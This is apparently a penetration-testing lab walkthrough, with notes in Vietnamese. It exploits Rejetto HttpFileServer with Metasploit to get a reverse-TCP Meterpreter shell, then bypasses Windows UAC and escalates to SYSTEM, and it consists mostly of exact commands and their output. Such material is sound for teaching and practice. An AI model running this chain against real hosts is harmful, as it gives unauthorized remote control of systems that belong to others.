


# Windows Privilege Escalation: Bypassing UAC

`service postgresql start && msfconsole -q`

`db_status`

`setg RHOSTS 10.2.18.116`

`setg RHOST 10.2.18.116`

`workspace -a UAC_Bypass`

`db_nmap -sV 10.2.18.116`

```
80/tcp    open  http 		 HttpFileServer httpd 2.3
135/tcp   open  msrpc		 Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
49152/tcp open  msrpc 		 Microsoft Windows RPC
49153/tcp open  msrpc 		 Microsoft Windows RPC
49154/tcp open  msrpc 		 Microsoft Windows RPC
49155/tcp open  msrpc 		 Microsoft Windows RPC
49163/tcp open  msrpc 		 Microsoft Windows RPC
49175/tcp open  msrpc 		 Microsoft Windows RPC
```

Exploit

`search type:exploit name:rejetto`

`use exploit/windows/http/rejetto_hfs_exec`

`set payload windows/x64/meterpreter/reverse_tcp`

`run`

-> chờ cho có phiên

`sysinfo`

```
    Computer        : VICTIM
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 2
    Meterpreter     : x64/windows
```

`getuid`

	Server username: VICTIM\admin

Ta thử leo quyền bằng cách đơn giản nhất

`getsystem`

-> failed

`getprivs`

```
    Enabled Process Privileges
    ==========================
    Name
    ----
    SeChangeNotifyPrivilege
    SeIncreaseWorkingSetPrivilege
    SeShutdownPrivilege
    SeTimeZonePrivilege
    SeUndockPrivilege
```

Ta cần tìm hiểu xem "admin" có phải thành phần của Group ko 

`shell`

`net users`

```
	admin Administrator Guest
```

`net localgroup administrators`

```
    Members
    -------------
    admin
    Administrator
```

Vậy tài khoản "admin" là 1 phần của Administrators group

`exit`

BYPASS UAC

`background`

`sessions`

```
	1 meterpreter x64/windows VICTIM\admin @ VICTIM 10.10.24.6:4444 -> 10.2.18.116:49219 (10.2.18.116)
```

`search bypassuac`

`use exploit/windows/local/bypassuac_injection`

`set payload windows/x64/meterpreter/reverse_tcp`

`set SESSION 1`

`set LPORT 5533`

`run`

```
[*] Started reverse TCP handler on 10.10.24.6:5533 
[+] Windows 2012 R2 (6.3 Build 9600). may be vulnerable.
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[-] Exploit aborted due to failure: bad-config: x86 Target Selected for x64 System
[*] Exploit completed, but no session was created.
```

-> ta thấy bị từ chối và được gợi ý dùng x64 

`set TARGET Windows\ x64`

`run`



Sau khi vào phiên 

`getuid`

-> ta thấy không có gì thay đổi, vì thực sự module chỉ loại bỏ UAC ko phải leo quyền, ta cần thêm 1 bước để leo quyền

`getsystem` 




